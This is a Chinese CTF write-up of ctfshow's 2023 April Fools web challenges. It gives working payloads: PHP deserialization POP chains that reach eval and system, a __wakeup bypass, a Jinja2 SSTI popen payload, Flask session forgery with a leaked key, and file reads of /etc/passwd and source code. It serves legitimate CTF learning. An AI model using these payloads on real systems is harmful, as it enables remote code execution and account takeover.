





---
title: "ctfshow2023愚人杯"
date: 2025-08-12T18:00:03+08:00
summary: "ctfshow2023愚人杯"
url: "/posts/ctfshow2023愚人杯/"
categories:
  - "ctfshow"
tags:
  - "2023愚人杯"
draft: false
---

## easy_signin



把base64删掉后就出现了file_get_contents，并且这里是需要base64编码传进去的，试一下`../../../etc/passwd`



这里会渲染成图片，把base64解码后就能拿到了

读一下index.php，里面就有flag

```php
<?php
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2023-03-27 10:30:30
# @Last Modified by:   h1xa
# @Last Modified time: 2023-03-28 12:15:33
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

$image=$_GET['img'];

$flag = "ctfshow{1275d180-310c-440d-9c2f-4a5d9c9bc63d}";
if(isset($image)){
	$image = base64_decode($image);
	$data = base64_encode(file_get_contents($image));
	echo "";
}else{
	$image = base64_encode("face.png");
	header("location:/?img=".$image);
}
```

## 被遗忘的反序列化

```php
<?php

# 当前目录中有一个txt文件哦
error_reporting(0);
show_source(__FILE__);
include("check.php");

class EeE{
    public $text;
    public $eeee;
    public function __wakeup(){
        if ($this->text == "aaaa"){
            echo lcfirst($this->text);
        }
    }

    public function __get($kk){
        echo "$kk,eeeeeeeeeeeee";
    }

    public function __clone(){
        $a = new cycycycy;
        $a -> aaa();
    }
    
}

class cycycycy{
    public $a;
    private $b;

    public function aaa(){
        $get = $_GET['get'];
        $get = cipher($get);
        if($get === "p8vfuv8g8v8py"){
            eval($_POST["eval"]);
        }
    }


    public function __invoke(){
        $a_a = $this -> a;
        echo "\$a_a\$";
    }
}

class gBoBg{
    public $name;
    public $file;
    public $coos;
    private $eeee="-_-";
    public function __toString(){
        if(isset($this->name)){
            $a = new $this->coos($this->file);
            echo $a;
        }else if(!isset($this -> file)){
            return $this->coos->name;
        }else{
            $aa = $this->coos;
            $bb = $this->file;
            return $aa();
        }
    }
}   

class w_wuw_w{
    public $aaa;
    public $key;
    public $file;
    public function __wakeup(){
        if(!preg_match("/php|63|\*|\?/i",$this -> key)){
            $this->key = file_get_contents($this -> file);
        }else{
            echo "不行哦";
        }
    }

    public function __destruct(){
        echo $this->aaa;
    }

    public function __invoke(){
        $this -> aaa = clone new EeE;
    }
}

$_ip = $_SERVER["HTTP_AAAAAA"];
unserialize($_ip);
```

这里的话不难看出有两个利用点，一个是`w_wuw_w::__wakeup()`可以读文件，一个是`cycycycy::aaa()`有eval

根据这里的提示，有一个check.php文件，尝试把他读出来

```php
<?php
class w_wuw_w{
    public $aaa;
    public $key;
    public $file;
}
$a = new w_wuw_w();
$a -> file = "php://filter/read=convert.base64-encode/resource=check.php";
$a -> aaa = &$a -> key;
echo serialize($a);
```

这里的话是利用了一个地址指向的操作，让我们获取到的key的地址赋值给aaa，而在destruct中会有对aaa的输出，那么就能打印出key的内容了



```php
<?php

function cipher($str) {

    if(strlen($str)>10000){
        exit(-1);
    }

    $charset = "qwertyuiopasdfghjklzxcvbnm123456789";
    $shift = 4;
    $shifted = "";

    for ($i = 0; $i < strlen($str); $i++) {
        $char = $str[$i];
        $pos = strpos($charset, $char);

        if ($pos !== false) {
            $new_pos = ($pos - $shift + strlen($charset)) % strlen($charset);
            $shifted .= $charset[$new_pos];
        } else {
            $shifted .= $char;
        }
    }

    return $shifted;
}
```

这个就是aaa()中的加密函数，一个简单的凯撒移位加密，将获取到的字符串的每个字符往左移4位，字符顺序就是charset属性

关注到题目提示目录下有一个txt文件，然后可以看到gBoBg下有一个__toString()，这里有一个原生类调用的口子

```php
    public function __toString(){
        if(isset($this->name)){
            $a = new $this->coos($this->file);
            echo $a;
        }else if(!isset($this -> file)){
            return $this->coos->name;
        }else{
            $aa = $this->coos;
            $bb = $this->file;
            return $aa();
        }
    }
```

那我们用**GlobIterator类**去读一下目录

```php
<?php
class w_wuw_w{
    public $aaa;
}
class gBoBg{
    public $name;
    public $file;
    public $coos;
}
$a = new w_wuw_w();
$a -> aaa = new gBoBg();
$a -> aaa -> coos = "GlobIterator";
$a -> aaa -> file = "*";
$a -> aaa -> name = "111";
echo serialize($a);
```

拿到一个h1nt.txt，读一下

```php
#用于check.php

key：qwertyuiopasdfghjklzxcvbnm123456789

move：2~4
```

其实这个hint没啥用，我们已经直接读到check.php了

其实到这的话可以发现这道题就有很多预期解了，要么就是探测出flag的具体文件名，要么就是直接打RCE

这里我还是写预期解，也就是RCE吧

然后我们写poc

```php
<?php
class gBoBg{
    public $file;
    public $coos;
}
class w_wuw_w{
    public $aaa;
}
$a = new w_wuw_w();
$a -> aaa = new gBoBg();
$a -> aaa -> file = "aaa";     //绕过else if 判断
$a -> aaa -> coos = new w_wuw_w();
echo serialize($a);
//w_wuw_w::__destruct()->gBoBg::__toString()->w_wuw_w::__invoke()->EeE::__clone()->cycycycy::aaa()
```

所以最后的请求包

```html
POST /?get=fe1ka1ele1efp HTTP/1.1
Host: 81344772-6bac-4087-a5ea-585b5bf6b62e.challenge.ctf.show
Cookie: cf_clearance=ZuK66QChNGftyyiGS39xGqXjRvrgqwc7dpOpwNp8hgY-1747317016-1.2.1.1-SHtYMtmhonoQh3f9JFLxlX5e8ZPl2H.d.1t6d9JUkU8A48zWJ8kwl3L9eAExpcFayYenFfR8OxZ7NWlafUA3eW..1Ql.yEeMVQsO2dN0LeOWb9v9mBTw9f9lNiJBsuz0wNfBuxQoVypAzPhH9KeUpkB22hemlwS35.DR.pfloutzMUBCc7K.SMPWBv0hD22WPrXL6TOwx.8Vlv0exiJGfJydMDF8Fmgi7BwFDHfm8A27bqv1xzCh1xdEneeUo.dok_1cBQWYDpbP2ClHu0miDKBW2hnvhGXG7HbMovGYSE3c1QFXa0TPiCQYSEXDX_10Bnlxz9QrXZujCxO7ZGcQA_vDxzoYodJRpDZrLpAsbq8
Sec-Ch-Ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Aaaaaa: O:7:"w_wuw_w":1:{s:3:"aaa";O:5:"gBoBg":2:{s:4:"file";s:3:"aaa";s:4:"coos";r:1;}}
Referer: https://81344772-6bac-4087-a5ea-585b5bf6b62e.challenge.ctf.show/
Priority: u=0, i
Connection: keep-alive
Content-Length: 28
Content-Type: application/x-www-form-urlencoded

eval=system('cat+/f1agaaa');
```

## easy_php

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2023-03-24 10:16:33
# @Last Modified by:   h1xa
# @Last Modified time: 2023-03-25 00:25:52
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
highlight_file(__FILE__);

class ctfshow{

    public function __wakeup(){
        die("not allowed!");
    }

    public function __destruct(){
        system($this->ctfshow);
    }

}

$data = $_GET['1+1>2'];

if(!preg_match("/^[Oa]:[\d]+/i", $data)){
    unserialize($data);
}


?>
```

一个很简单的wakeup绕过，用原生类去包装一下就行了

```php
<?php
class ctfshow{
}
$a = new SplObjectStorage();
$a -> test = new ctfshow();
$a -> test -> ctfshow = "whoami";
echo serialize($a);
?>
```

然后需要注意的是我们传入的1+1>2是需要编码的，不然+号会被认为是空格

```html
?1%2b1>2=C:16:"SplObjectStorage":70:{x:i:0;m:a:1:{s:4:"test";O:7:"ctfshow":1:{s:7:"ctfshow";s:6:"whoami";}}}
```

die()是不会影响反序列化的进行的，因为对象是存在内存中的，die只是终止脚本的运行，不影响php的GC回收机制销毁内存中的对象



## easy_ssti

源码找到一个app.zip

```python
from flask import Flask
from flask import render_template_string,render_template
app = Flask(__name__)

@app.route('/hello/')
def hello(name=None):
    return render_template('hello.html',name=name)
@app.route('/hello/<name>')
def hellodear(name):
    if "ge" in name:
        return render_template_string('hello %s' % name)
    elif "f" not in name:
        return render_template_string('hello %s' % name)
    else:
        return 'Nonononon'

```

路径输入`/hello/{{8*8}}`返回hello 64，直接打ssti就行了，绕过的话直接用旁路注入外带参数就很方便

```html
/hello/{{().__class__.__base__.__subclasses__()[132].__init__.__globals__['popen'](request.values.a).read()}}?a=cat+/flag
```

## easy_flask

一个登录口，有一个注册页面，先注册一个1111/111111登录看看


有一个leran的`/show/`接口，但是只给了部分源码

```python

# app.py
from flask import Flask, render_template, request, redirect, url_for, session, send_file, Response


app = Flask(__name__)


app.secret_key = 'S3cr3tK3y'

users = {

}

@app.route('/')
def index():
# Check if user is loggedin
if 'loggedin' in session:
return redirect(url_for('profile'))
return redirect(url_for('login'))

@app.route('/login/', methods=['GET', 'POST'])
def login():
msg = ''
if request.method == 'POST' and 'username' in request.form and 'password' in request.form:
username = request.form['username']
password = request.form['password']
if username in users and password == users[username]['password']:
session['loggedin'] = True
session['username'] = username
session['role'] = users[username]['role']
return redirect(url_for('profile'))
else:
msg = 'Incorrect username/password!'
return render_template('login.html', msg=msg)


@app.route('/register/', methods=['GET', 'POST'])
def register():
msg = ''
if request.method == 'POST' and 'username' in request.form and 'password' in request.form:
username = request.form['username']
password = request.form['password']
if username in users:
msg = 'Account already exists!'
else:
users[username] = {'password': password, 'role': 'user'}
msg = 'You have successfully registered!'
return render_template('register.html', msg=msg)


@app.route('/profile/')
def profile():
if 'loggedin' in session:
return render_template('profile2.html', username=session['username'], role=session['role'])
return redirect(url_for('login'))
......
```

拿到key了，试着解密一下session

```bash
root@VM-16-12-ubuntu:/home/ubuntu# flask-unsign --decode --cookie "eyJsb2dnZWRpbiI6dHJ1ZSwicm9sZSI6InVzZXIiLCJ1c2VybmFtZSI6IjExMTEifQ.aJxbNA.Bjred7ZyAItaME1fcFrYPimeaEY"
{'loggedin': True, 'role': 'user', 'username': '1111'}
```

既然这里有key的话，试着伪造一下admin

```bash
root@VM-16-12-ubuntu:/home/ubuntu# flask-unsign --sign --cookie "{'loggedin': True, 'role': 'admin', 'username': '1111'}" --secret 'S3cr3tK3y'
eyJsb2dnZWRpbiI6dHJ1ZSwicm9sZSI6ImFkbWluIiwidXNlcm5hbWUiOiIxMTExIn0.aJxcQQ.brvd49dIzi5itGCHr13s_JUByzE
```


好吧，假的flag~换个地方去做一下

在源码中发现一个路由可以下载文件



传入/download/?filename=/etc/passwd发现可以读取敏感文件，那就直接读一下app.py

```python
# app.py
from flask import Flask, render_template, request, redirect, url_for, session, send_file, Response


app = Flask(__name__)


app.secret_key = 'S3cr3tK3y'

users = {
    'admin': {'password': 'LKHSADSFHLA;KHLK;FSDHLK;ASFD', 'role': 'admin'}
}


@app.route('/')
def index():
    # Check if user is loggedin
    if 'loggedin' in session:
        return redirect(url_for('profile'))
    return redirect(url_for('login'))

@app.route('/login/', methods=['GET', 'POST'])
def login():
    msg = ''
    if request.method == 'POST' and 'username' in request.form and 'password' in request.form:
        username = request.form['username']
        password = request.form['password']
        if username in users and password == users[username]['password']:
            session['loggedin'] = True
            session['username'] = username
            session['role'] = users[username]['role']
            return redirect(url_for('profile'))
        else:
            msg = 'Incorrect username/password!'
    return render_template('login2.html', msg=msg)


@app.route('/register/', methods=['GET', 'POST'])
def register():
    msg = '' 
    if request.method == 'POST' and 'username' in request.form and 'password' in request.form:
        username = request.form['username']
        password = request.form['password']
        if username in users:
            msg = 'Account already exists!'
        else:
            users[username] = {'password': password, 'role': 'user'}
            msg = 'You have successfully registered!'
    return render_template('register2.html', msg=msg)


@app.route('/profile/')
def profile():
    if 'loggedin' in session:
        return render_template('profile2.html', username=session['username'], role=session['role'])
    return redirect(url_for('login'))


@app.route('/show/')
def show():
    if 'loggedin' in session:
        return render_template('show2.html')

@app.route('/download/')
def download():
    if 'loggedin' in session:
        filename = request.args.get('filename')
        if 'filename' in request.args:              
            return send_file(filename, as_attachment=True)
  
    return redirect(url_for('login'))


@app.route('/hello/')
def hello_world():
    try:
        s = request.args.get('eval')
        return f"hello,{eval(s)}"
    except Exception as e:
        print(e)
        pass
        
    return "hello"
    


@app.route('/logout/')
def logout():
   session.pop('loggedin', None)
   session.pop('id', None)
   session.pop('username', None)
   session.pop('role', None)
   return redirect(url_for('login'))


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=8080)

```

在/hello/路由下发现一个eval，`eval()` 会执行 Python 表达式，把字符串当作 Python 代码运行。

直接打就行

```python
/hello/?eval=__import__('os').popen('cat /flag_is_h3re').read()
```
